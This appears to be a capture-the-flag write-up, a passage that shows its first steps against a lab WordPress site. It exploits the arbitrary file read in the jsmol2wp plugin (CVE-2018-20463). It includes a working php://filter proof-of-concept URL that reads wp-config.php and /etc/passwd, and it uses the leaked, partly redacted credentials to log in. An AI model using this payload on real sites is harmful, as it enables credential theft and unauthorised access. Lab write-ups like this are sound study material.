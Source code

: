 ### Vulnerability CVE-2018-20463

** https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt **

Version: 1.07
Link: https://wordpress.org/plugins/jsmol2wp/
A simple arbitrary file read and XSS vulnerability

Arbitrary file read & SSRF(CVE-2018-20463)
/wp-content/plugins/jsmol2wp/php/jsmol.php 137th line

The parameter $query of file_get_contents is directly controllable, so php://filter is used to read it. Of course, you can also use file:///etc/passwd to read the absolute path.

POC:

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

Test:

http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

```
/** Database username */
define( 'DB_USER', '-REDACTED-' );

/** Database password */
define( 'DB_PASSWORD', 'kb-REDACTED-Z%G' );
```
### Step 1 - Find a login user 


Check local users in passwd files:

xavi:x:1001:1001::/home/xavi:/bin/bash

diego:x:1002:1002::/home/diego:/bin/bash

gege:x:1003:1003::/home/gege:/bin/bash


Check user by wpscan

- admin
- think

Check password & user from mysql section in wp-config.php

log in successfull by - REDACTED - 

### Step 2 - log in to WP

We have an access to wp  

Checking WP version:

[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
